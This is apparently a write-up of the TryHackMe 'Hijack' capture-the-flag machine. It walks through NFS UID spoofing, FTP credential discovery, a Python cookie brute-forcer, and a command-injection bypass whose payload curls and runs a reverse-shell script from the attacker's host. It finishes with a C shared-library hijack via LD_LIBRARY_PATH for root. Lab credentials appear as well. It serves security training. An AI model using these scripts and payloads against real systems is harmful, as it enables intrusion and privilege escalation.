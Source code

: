 <h3> Hijack TryHackMe </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f4519c5a-bf39-44bd-989a-195f14153a0c)

Been long since I did a machine from TryHackMe but recently a friend of mine showed me this box so I decided to do it today

First thing first as always is enumeration

I started with an nmap scan and on doing so got me this available tcp ports open
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f87e8f09-67ae-40d2-b363-df0a3f251814)

Ok cool we have ftp, ssh, http and nfs open

Checking the mounts on nfs shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9cbe16a7-bd94-4af9-b594-cc3e375308df)

So anyone can mount the share on `/mnt/share`

I mounted it and saw this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c244adfe-248f-4ee3-9d4c-d0df276b74c1)

```
- mkdir mnt
- sudo mount -t nfs 10.10.38.234:/mnt/share mnt
```

Well we can't access the mounted share cause our user & group id isn't `1003` but `1001`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/096ae2e0-424f-4142-9298-836923711705)

To solve that I just changed the value from my `/etc/passwd` file (but u can actually create a dummy account and make the uid/gid 1003 then delete when done ...... as for me i'm too lazy to do that)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/32dc459d-a804-457e-b8c2-9f8af0fe0268)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f30871f0-fe8a-4822-bc7d-5ab6a1831519)

```
ftp creds :

ftpuser:W3stV1rg1n14M0un741nM4m4
```

Cool we have the ftp credentials now we can unmount the share and continue enumeration
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b28b3bc2-13e9-42e2-9192-4f32c31c5a22)

Let us check ftp shall we?
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a9598e72-db0f-4502-b673-de6a8cc40f6b)

That seems to be like a user directory and also two non default files are there (which are hidden) 

After transferring it to my host I checked it's content and got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/26fd23bf-0b0c-4dce-a5d3-ab513dfbadf7)

```
➜  Hijack cat .from_admin.txt 
To all employees, this is "admin" speaking,
i came up with a safe list of passwords that you all can use on the site, these passwords don't appear on any wordlist i tested so far, so i encourage you to use them, even me i'm using one of those.

NOTE To rick : good job on limiting login attempts, it works like a charm, this will prevent any future brute forcing.
➜  Hijack
```

From this note we can tell there's a user called `admin` and he made a password list containing safe passwords. Also he says something to the user `rick` about rate limiting login attempts inorder to prevent future brute force attack

Cool so let's move to the webapp

One thing we can try here is to attempt brute force on ssh for user `admin / rick / root` with the password list but that won't work :P

Time to move to the webapp 

![giphy](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/09557d16-86b1-4eaf-834e-ec228f5613f5)

Going over to port 80 which is the webserver shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/58fae9ca-5379-40a8-a7ee-d715a04062bd)

So we can either login or create account

To save us the trouble of stress I just created an account
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/acd32ee8-8000-4d1f-83fc-508b12e7e482)

Now we can login with the credential `mud:password`

One thing you'd immediately notice is the `Administration` panel 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fba37f5b-b7aa-4b45-a391-1267433727ea)

If you click that you'd see this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/181bbdb4-03f8-4d64-abce-7be6898894b3)

So we need to be logged in as admin before we can access that

Often when webapp checks this kind of permission it either gets it from a database or it can be the cookie 

Since we have no sort of database access here I checked the cookie and saw this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/bd98d584-a07d-43ab-a9b8-9b5f4ef25d78)

Normally when I see `PHPSESSID` as the cookie name I don't really check it because it's usually some random value but that isn't the case here
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ee5af735-fbb5-441b-8d6e-17610f0caeea)

From cyberchef we can see that it decoded from base64 and has `admin` + `:` + some_hash_value

Using [crackstation](https://crackstation.net/) the hash decoded to `password` and I got the hash type to be `MD5`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6f1f459d-5286-4ca1-ba89-f091a239d39e)

At this point we can either do two things:
- Brute force the admin account
- Do some cookie forgery till we get the right admin cookie session

The first case won't be of benefit to us as there's going to be rate limit according to the note from admin 

But the other case will work cause the rate limit is just placed on the login page but not the amount of time you access the web page which makes sense

Now inorder to do that we need to convert `admin:{md5_of_password}` to base64 then make a `GET` request to `/` and if we get a content length which differs from the preceding one then we have our right session

I wrote a python script to do that:

```python
import requests
import hashlib
from base64 import b64encode as encode

url = "http://10.10.182.53/index.php"

with open("passwords.txt", 'r') as fp:
    for password in fp:
        passwd = password.strip('\n').encode()
        hash = hashlib.md5(passwd).hexdigest()
        value = f"admin:{hash}"
        payload = encode(value.encode())
        cookie = {"PHPSESSID": payload.decode()}
        req = requests.get(url, cookies=cookie)
        
        if len(req.text) != 487:
            print(f"Potential Cookie: {payload.decode()}")
            break
```

After running it I got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a9042b0c-a755-44d1-be8d-37b3539c7d80)

```
➜  Hijack python3 check.py
Potential Cookie: YWRtaW46ZDY1NzNlZDczOWFlN2ZkZmIzY2VkMTk3ZDk0ODIwYTU=
➜  Hijack
```

Now we can change the cookie to that and should be logged in as admin
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/574d00ce-0b6a-4eb4-a0d9-dba14c716239)

Cool let us access the administrator panel
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9420e836-d8a0-46fc-b06f-feb34c254174)

That claims to do a service check on the provided service name

I put `apache2` since that's currently running and it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f6434c93-9c0e-4937-a940-31016f972937)

This tells us that it is likely running a bash command with our argument provided

This means we can try inject our own command leading to command injection

I first tried the generic payload `;` and got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/607e756f-7866-42d4-b3e6-68dfaaabd0bd)

```
Command injection detected, please provide a service.
```

Fancy! This can be bypassed easily using `$(command)`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/295f54d7-ea98-4b9e-85ad-ddca20bd2818)

So I just got a reverse shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6a307f94-9fa3-45d5-a3f0-9c40a7c983b0)

```
- $(curl 10.6.80.113/rev.sh -o /tmp/a)
- $(bash /tmp/a)
```

In the current directory of the web app shows a configuration file which holds mysql credential
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9a556c0a-d549-4193-aeb7-0f3807b9e83a)

Using the password worked for user `rick` and we can now grab the user flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/46ef276a-6fd6-451d-b8b6-adbc49675955)

```
rick:N3v3rG0nn4G1v3Y0uUp
```

Time for privilege escalation 

Checking sudo permission shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/12d68db3-14e6-475b-8f8d-56d282a75a9b)

So we can run `/usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2` as `root` 

But one interesting configuration is that we can specify the environment LD Library Path 

We can get the list of library going to be called when the run the `apache2` binary using `ldd` 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f84960a7-82f5-4c81-b9ef-3c72f9282517)

Simple google search should lead you at least [here](https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/):

In this case I'll hijack the library which is `libcrypt.so.1` 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/38e06c23-5d74-412a-9dc0-4f67e35083d2)

Here's the C code:

```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

To compile run this:

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC pwn.c
```

Now we can spawn a root shell 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/43fbbb4c-f2a9-4ed5-96cb-8542e63467cb)

```
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

That's all xD
